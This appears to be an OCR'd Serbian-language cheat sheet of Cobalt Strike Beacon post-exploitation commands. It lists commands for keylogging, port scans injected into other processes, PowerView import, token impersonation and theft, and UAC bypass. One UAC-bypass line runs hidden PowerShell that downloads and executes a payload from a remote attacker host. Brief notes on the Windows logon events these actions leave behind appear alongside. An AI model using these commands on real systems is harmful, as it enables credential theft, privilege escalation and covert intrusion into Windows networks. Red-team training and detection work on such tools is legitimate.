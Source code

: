 # keylogger
keylogger [pid] [x86|x64]
## Приказ > Притиснуте тастере да видите притиснуте тастере

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Убаци акцију скенирања порта у други процес
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
# Увези Powershell модул
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;овде унесите powershell команду>

# Имитација корисника
## Генеришење токена са креденцијалима
make_token [DOMAIN\user] [password] #Креирај токен за имитирање корисника у мрежи
ls \\computer_name\c$ # Покушај коришћења генерисаног токена за приступ C$ на рачунару
rev2self # Престани користити токен генерисан са make_token
## Коришћење make_token генерише догађај 4624: Налог је успешно пријављен. Овај догађај је веома чест у Windows домену, али се може сужавати филтрирањем по типу пријаве. Као што је поменуто, користи LOGON32_LOGON_NEW_CREDENTIALS који је тип 9.

# UAC Bypass
elevate svc-exe &#x3C;слушаоц>
elevate uac-token-duplication &#x3C;слушаоц>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## Укради токен из pid-а
## Као make_token, али краде токен из процеса
steal_token [pid] # Такође, ово је корисно за мрежне акције, а не локалне акције
## Из документације API-ја знамо да овај тип пријаве "омогућава позиваоцу да клонира свој тренутни токен". Зато Beacon исписује Impersonated &#x3C;current_username> - имитира наш клонирани токен.
ls \\computer_name\c$ # Покушај коришћења генерисаног токена за приступ C$ на рачунару
rev2self # Престани користити токен из steal_token
